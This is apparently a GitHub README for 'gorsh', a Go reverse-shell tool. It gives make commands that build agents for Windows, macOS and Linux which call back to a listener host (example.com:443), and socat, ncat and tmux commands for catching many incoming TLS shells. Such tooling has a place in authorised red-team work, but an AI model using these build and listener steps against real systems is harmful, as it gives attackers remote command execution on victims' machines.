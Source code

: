 # gorsh

[go]lang [r]everse [sh]ell

[![forthebadge](https://forthebadge.com/images/badges/fuck-it-ship-it.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/no-ragrets.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/contains-technical-debt.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/made-with-crayons.svg)](https://forthebadge.com)

![](https://i.imgur.com/x51XH6K.png)
[![asciicast](https://asciinema.org/a/NmeC42TNu8BgdjMLcyVUXo74x.svg)](https://asciinema.org/a/NmeC42TNu8BgdjMLcyVUXo74x)



## Getting started
```bash
git clone git@github.com:audibleblink/gorsh.git
```

### Usage

Generate agents with:

```bash
# For the `make` targets, you only need the`LHOST`and`LPORT`environment variables.
$ make {windows,macos,linux} LHOST=example.com LPORT=443
```

#### Catching the shell

To have the ability to receive multiple shells on the same port, there's the `make listen` target.
The `make listen` target kicks off a socat TLS pipe and creates new tmux windows with each new
incoming connection.  Feed it a port number as PORT. 
`socat` is acting as a TLS-terminating reverse proxy. The incoming connections are then
handed off to the socat address through randomly generated Unix Domain Sockets.

```sh
make listen PORT=8080

# once a client connects, on a different terminal type:
tmux attach -t GORSH
```

Shells can also be caught without tmux:

* ncat
* openssl server module
* metasploit multi handler (with a `python/shell_reverse_tcp_ssl` payload)

__Examples__

```bash
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
$ socat stdio OPENSSL-LISTEN:443,cert=server.pem,key=server.key,verify=0
```

